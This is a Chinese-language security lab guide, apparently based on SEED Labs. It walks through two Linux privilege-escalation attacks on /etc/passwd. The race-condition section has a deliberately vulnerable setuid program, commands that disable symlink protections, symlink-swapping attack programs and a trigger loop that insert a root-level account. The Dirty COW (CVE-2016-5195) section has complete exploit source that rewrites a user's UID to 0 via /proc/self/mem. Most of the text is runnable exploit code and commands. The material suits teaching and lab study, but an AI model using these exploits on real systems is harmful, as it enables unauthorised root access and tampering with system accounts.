 # Race Condition 实验

## 1. 准备实验程序 (vulp.c)

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

int main()
{
    char* fn = "/tmp/XYZ";
    char buffer[60];
    FILE* fp;

    /* get user input */
    scanf("%50s", buffer);

    if (!access(fn, W_OK)) {
        fp = fopen(fn, "a+");
        if (!fp) {
            perror("Open failed");
            exit(1);
        }
        fwrite("\n", sizeof(char), 1, fp);
        fwrite(buffer, sizeof(char), strlen(buffer), fp);
        fclose(fp);
    } else {
        printf("No permission \n");
    }

    return 0;
}
```

按照如下命令对其进行编译并设置为setuid程序

```bash
gcc vulp.c -o vulp
sudo chown root vulp
sudo chmod 4755 vulp

# 关闭保护措施
# for ubuntu 20.04
sudo sysctl -w fs.protected_symlinks=0
sudo sysctl fs.protected_regular=0
# for ubuntu 16.04
sudo sysctl -w fs.protected_symlinks=0
# for ubuntu 12.04
sudo sysctl -w kernel.yama.protected_sticky_symlinks=0
```

## 2. 设置将要添加到/etc/passwd的用户行信息 (passwd_input)

```bash
echo "test:U6aMy0wojraho:0:0:test:/root:/bin/bash" > passwd_input
```

## 3. 设置攻击进程来不断更改链接的指向 (attack_process.c)

```c
#include <unistd.h>

int main() {
	while(1) {
		unlink("/tmp/XYZ");
		symlink("/dev/null", "/tmp/XYZ");
		usleep(1000);
		
		unlink("/tmp/XYZ");
		symlink("/etc/passwd", "/tmp/XYZ");
		usleep(1000);
	}

	return 0;
}
```

也可以用这一版本的`attack_process_safe.c`，它使用 renameat2 系统调用来原子地调换链接，自身不存在竞态问题。
```c
#define _GNU_SOURCE
#include <stdio.h>
#include <unistd.h>

int main() {
  unsigned int flags = RENAME_EXCHANGE;

  unlink("/tmp/XYZ"); symlink("/dev/null", "/tmp/XYZ");
  unlink("/tmp/ABC"); symlink("/etc/passwd", "/tmp/ABC");

	while(1) {
		renameat2(0, "/tmp/XYZ", 0, "/tmp/ABC", flags);
		usleep(1000);
	}

	return 0;
}
```

将其编译：`gcc -o attack_process attack_process.c`

## 4. 编写脚本不断触发实验程序，实现race condtion (target_process.sh)

```bash
CHECK_FILE="ls -l /etc/passwd"
old=$($CHECK_FILE)
new=$($CHECK_FILE)
while [ "$old" == "$new" ]  
do
   ./vulp < ./passwd_input
   new=$($CHECK_FILE)
done
echo "STOP... The passwd file has been changed"
```

## 5. 执行攻击

```bash
# 在窗口1执行attach_process来不断变换链接指向
./attack_process

# 在窗口2不断触发实验程序
bash target_process.sh

# 等待几分钟，会出现提示：STOP... The passwd file has been changed

# 查看效果
cat /etc/passwd
```

# Dirty Cow （在Ubuntu 12.04上进行）

## 1. 添加一个测试用户testcow

```bash
# 为了和攻击代码匹配，testcow需要是第二个非root普通用户，即id=1001
sudo adduser testcow
```

## 2. 准备攻击程序

```c
#include <sys/mman.h>
#include <fcntl.h>
#include <pthread.h>
#include <sys/stat.h>
#include <string.h>

void *map;
void *writeThread(void *arg);
void *madviseThread(void *arg);

int main(int argc, char *argv[])
{
  pthread_t pth1,pth2;
  struct stat st;
  int file_size;

  // Open the target file in the read-only mode.
  int f=open("/etc/passwd", O_RDONLY);

  // Map the file to COW memory using MAP_PRIVATE.
  fstat(f, &st);
  file_size = st.st_size;
  map=mmap(NULL, file_size, PROT_READ, MAP_PRIVATE, f, 0);

  // Find the position of the target area
  char *position = strstr(map, "testcow:x:1001");                        

  // We have to do the attack using two threads.
  pthread_create(&pth1, NULL, madviseThread, (void  *)file_size); 
  pthread_create(&pth2, NULL, writeThread, position);             

  // Wait for the threads to finish.
  pthread_join(pth1, NULL);
  pthread_join(pth2, NULL);
  return 0;
}

void *writeThread(void *arg)
{
  char *content= "testcow:x:0000"; 
  off_t offset = (off_t) arg;

  int f=open("/proc/self/mem", O_RDWR);
  while(1) {
    // Move the file pointer to the corresponding position.
    lseek(f, offset, SEEK_SET);
    // Write to the memory.
    write(f, content, strlen(content));
  }
}

void *madviseThread(void *arg)
{
  int file_size = (int) arg;
  while(1){
      madvise(map, file_size, MADV_DONTNEED);
  }
}
```

将其进行编译：`gcc dirty_cow.c -lpthread`生成a.out。

## 3. 执行攻击

```bash
# 执行如下程序几秒后手动ctrl+c结束
./a.out

# 查看结果
cat /etc/passwd
```

# 参考资料

- [SEEDLABS Race Condition](seedsecuritylabs.org/Labs_20.04/Files_cn/Race_Condition_cn.pdf)
- [Dirty COW - (CVE-2016-5195) - Docker Container Escape](https://blog.paranoidsoftware.com/dirty-cow-cve-2016-5195-docker-container-escape/)